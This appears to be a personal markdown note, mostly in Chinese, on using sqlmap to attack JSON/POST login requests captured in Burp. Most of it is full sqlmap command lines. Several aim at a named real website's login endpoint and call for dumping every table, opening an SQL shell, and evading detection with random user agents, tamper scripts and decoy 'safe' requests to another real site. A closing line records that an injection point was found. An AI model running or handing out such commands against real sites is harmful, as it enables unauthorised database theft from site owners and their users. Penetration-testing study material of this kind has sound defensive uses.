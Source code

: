 ```yaml
---
date: 2022-07-06
modified: 2022-07-08
---
```

---
parrent: [[sqlmap]]
---# sqlmap JSON/POST
從 burp 將整個 request 存成 txt
手動在 Host: 後綴加上 `:443` 用以指定 https
手動在要測試的參數的值，後綴加上 `*` 用以指定參數
`-r REQUESTFILE      Load HTTP request from a file`
```shell
$ sqlmap -r loginRequest2.txt -T4 --random-agent --current-db --dbs --tables --dump --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql
```

使用帶 json 的，sqlmap 不支援 `-p` 指定參數，必須用星號

```shell
sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T5 -v3 --level 5 --risk 3  --tables --dump-all --sql-shell --force-ssl

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --tables --dump-all --hex

sqlmap -u https://www.caco.com.tw/security/memberidentify/login --data="id=ddf" -p "id" -T4 -v3 --level 5 --risk 3 --random-agent --force-ssl --fresh-queries --tables --dump-all --no-cast

sqlmap -r try3woutstar.txt -T4 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --fresh-queries --proxy="http://192.168.3.19:9527" -v 3 --randomize

sqlmap -r 1.txt -v 3 -T4 --force-ssl --banner --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --proxy="http://192.168.3.19:9527"

sqlmap -r try3.txt -T6 --random-agent --force-ssl --banner --current-db --dbs --tables --dump-all --level 5 --risk 3 --threads 10 --sql-shell --dbms=Mysql --fresh-queries --no-cast --proxy="http://192.168.3.19:9527" -v 3 --safe-url="https://www.uniqlo.com" --safe-freq 10 --randomize --tamper="space2mysqlblank.py"

sqlmap -r try3.txt -T4 -v3 --level 5 --risk 3  --tables --dump-all 

```
[SQLMap - Cheetsheat - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

-   --safe-url: 隔一会就访问一下的安全URL
-   --safe-post: 访问安全URL时携带的POST数据
-   --safe-req: 从文件中载入安全HTTP请求
-   --safe-freq: 每次测试请求之后都会访问一下的安全URL


AND boolean based found reflective values
![[2022-07-07_12-28.png]]